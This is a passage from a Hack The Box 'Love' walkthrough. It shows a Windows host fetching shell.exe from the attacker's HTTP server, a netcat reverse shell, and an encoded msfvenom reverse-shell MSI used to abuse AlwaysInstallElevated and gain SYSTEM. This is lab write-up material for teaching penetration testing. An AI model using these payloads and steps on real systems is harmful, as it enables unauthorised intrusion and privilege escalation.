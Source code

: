 ```shell
01/27/2021  12:08 AM               844 index.jpeg
08/06/2021  07:33 PM         1,919,488 privilege.exe
08/24/2017  04:00 AM            26,644 profile.jpg
08/07/2021  12:10 PM             3,038 reverse.php
08/06/2021  07:06 PM             7,168 reverse1.exe
08/07/2021  12:14 PM             7,168 shell.exe
08/07/2021  12:04 PM                32 test.php
             10 File(s)      2,128,366 bytes
              2 Dir(s)   3,880,849,408 bytes free
.\shell.exe
```

```shell
┌──(kali@kali)-[~/htb/love/blog]
└─$ sudo python3 -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.239 - - [07/Aug/2021 14:48:07] "GET /shell.exe HTTP/1.1" 200 -
10.10.10.239 - - [07/Aug/2021 14:48:07] "GET /shell.exe HTTP/1.1" 200 -
```

```shell
┌──(kali@kali)-[~/htb/love/blog]
└─$ sudo nc -nvlp 4445 
[sudo] password for kali: 
listening on [any] 4445 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 50992
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.
 
C:\xampp\htdocs\omrs\images>whoami
whoami   
love\phoebe 

C:\xampp\htdocs\omrs\images>
```

From there, I was able to grab the user flag, download winPEAS from my machine, and run it. Within its output I found my path to root - the `AlwaysInstallElevated` privilege. This allows any user, regardless of what privileges they normally have, to install software as an administrator. This is a dangerous configuration, as the `.msi` files used to install programs can also provide commands to run during installation, which in this case would be run as a system-level user.

![](13.png)

To generate the malicious payload I once again utilized msfvenom. Uploading it was, again, as simple as running certutil. I then proceeded to run the `.msi` and wait for my not-so-hard-earned shell:

```shell
┌──(kali@kali)-[~/htb/love/blog]
└─$ msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=4446 --encoder x64/xor --iterations 9 --format msi --out system.msi
Found 1 compatible encoders
Attempting to encode payload with 9 iterations of x64/xor
x64/xor succeeded with size 503 (iteration=0)
x64/xor succeeded with size 543 (iteration=1)
x64/xor succeeded with size 583 (iteration=2)
x64/xor succeeded with size 623 (iteration=3)
x64/xor succeeded with size 663 (iteration=4)
x64/xor succeeded with size 703 (iteration=5)
x64/xor succeeded with size 743 (iteration=6)
```
